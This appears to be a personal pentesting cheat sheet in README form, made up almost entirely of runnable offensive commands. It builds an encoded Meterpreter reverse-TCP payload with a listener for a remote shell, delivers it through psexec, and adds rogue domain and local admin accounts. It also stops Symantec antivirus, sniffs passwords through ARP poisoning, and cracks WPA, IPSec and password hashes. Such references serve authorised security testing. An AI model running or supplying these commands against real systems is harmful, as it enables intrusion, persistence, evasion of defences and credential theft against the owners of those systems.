 Pentesting Cheat Sheet
======================
These are various tips and tricks I have found useful on my pentest engagements. Most of these can be found using Google but I decided to put them in a central location to make them easily accessible. Hope they are as helpful to you as they are to me.

Mounting Shares
---------------
To mount an SMB share using a null session do one of the following depending on
the OS you are using.

    Windows> net use x: \\server\share "" /u:
    Linux> mount -t cifs //server/share -o username=,password= /mnt/point

To mount an NFS share on Linux use.

    mount -t nfs server:/share /mnt/point

Administrative Accounts
-----------------------
Add a new Windows domain admin account.

    net user username password /ADD /DOMAIN
    net group "Domain Admins" username /ADD /DOMAIN

Add a new Windows local admin account.

    net user username password /ADD
    net localgroup Administrators username /ADD

Add a new linux account and put them in the wheel group.

    useradd -G wheel username && echo "username:newpass"|chpasswd

Meterpreter Shell Error
-----------------------
If you get the error, "stdapi_sys_process_execute: Operation failed: 1314",
while trying to drop to as shell in meterpreter, try the code below. This is
a known bug in meterpreter.

    execute -f cmd.exe -c -i -H

Metasploit: Custom Psexec Executable
------------------------------------
The first thing we need to do is generate a custom executable to use with Meterpreter.

    msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4445 R | msfencode -t exe -e x86/shikata_ga_nai -c 5 > custom.exe

Next we need to setup a multi handler to listen for connections.

    msf > use exploit/multi/handler
    msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.0.1
    LHOST => 192.168.0.1
    msf exploit(handler) > set LPORT 4445
    LPORT => 4445
    [*] Started reverse handler on 192.168.0.1:4445
    [*] Starting the payload handler...

In another msfconsole session we need to configure the psexec exploit module to use our custom executable.

    msf > use exploit/windows/smb/psexec
    msf exploit(psexec) > set RHOST 192.168.0.2
    RHOST => 192.168.0.2
    msf exploit(psexec) > set SMBUser user
    SMBUser => user
    msf exploit(psexec) > set SMBPass pass
    SMBPass => pass
    msf exploit(psexec) > set EXE::Custom /path/to/custom.exe
    EXE::Custom => /path/to/custom.exe

Finally, we need to run the exploit. If everything worked then you should see a new meterpreter session open in multi/handler

    msf exploit(psexec) > exploit

Disable Antivirus
-----------------
This command will disable Symantec Endpoint Protection. I find it useful when
I have a basic shell on a box and want to upgrade to Meterpreter but Symantec
stops me.

    c:\program files\symantec\symantec endpoint protection\smc -stop

Use Ettercap to Sniff Traffic
-----------------------------
Ettercap allows us to do arp poisoning and sniff plaintext passwords.

    ettercap -M arp -T -q -i interface /spoof_ip/ /target_ips/ -w output_file.pcap

Cracking WPA/WPA2 PSK
---------------------
Use JtR to generate candidate passwords for aircrack-ng

    john --incremental:all --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap

Use Hashcat to generate candidate passwords for aircrack-ng

    ./hashcat-cli32.bin wordlist -r rules/d3ad0ne.rule --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap

Cracking IPSec Agressive Mode Pre-Shared Key
--------------------------------------------
If you’ve never done this, read these first.
http://www.nta-monitor.com/wiki/index.php/Ike-scan_User_Guide
http://carnal0wnage.attackresearch.com/2011/12/aggressive-mode-vpn-ike-scan-psk-crack.html

To find aggressive mode VPNS use ike-scan.

    ike-scan -A 192.168.1.0/24

If the default transforms don't work use the generate_transforms.sh script from the user guide above.

    generate-transforms.sh | xargs --max-lines=8 ike-scan 10.0.0.0/24

If you find a SonicWALL VPN using agressive mode it will require a group id, the default group id is GroupVPN

    ike-scan 192.168.1.1 -A -id GroupVPN

Use the -P argument to save the handshake to a file, which can be used by psk-crack.

    ike-scan 192.168.1.1 -A -Ppsk_192.168.1.1.txt

Use a dictionary to crack the pre-shared key.

    psk-crack -d /path/to/dictionary psk_192.168.1.1.txt

Basic Scanning with Nmap
------------------------
Discovery Scans:

	nmap -v -n -PE <target>
	nmap -v -n -PE -PO -PM -PP <target>
	nmap -v -n -PS21-23,25,53,80,443,3389 -PO -PE -PM -PP <target>

Detailed TCP Scans:

	nmap -v -sS -A --top-ports 10 -oA filename <target>
	nmap -v -sS -A -F -oA filename <target>
	nmap -v -sS -A -oA filename <target>
	nmap -v -sS -A -p 1-65535 -oA filename <target>

Detailed UDP Scans:

	nmap -v -sU -A --top-ports 10 -oA filename <target>
	nmap -v -sU -A -F -oA filename <target>
	nmap -v -sU -A -oA filename <target>
	nmap -v -sU -A -p 1-65535 -oA filename <target>


Create an IP List with Nmap
---------------------------
I find this particularly useful for tools or scripts that operate on new line delimited list of IP addresses. I can use the simple Nmap syntax to create a file with the list of appropriate IPs.

    nmap -sL -n 192.168.1.1-100,102-254 | grep "report for" | cut -d " " -f 5 > ip_list_192.168.1.txt

Crack Passwords with John and Korelogic Rules
---------------------------------------------
At one point Korelogic released a set of John the Ripper rules in a john.conf file. This bash one liner would grab each ruleset and run JtR with the specified ruleset.

    for ruleset in `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do ./john --rules:${ruleset} -w:<wordlist> <password_file> ; done

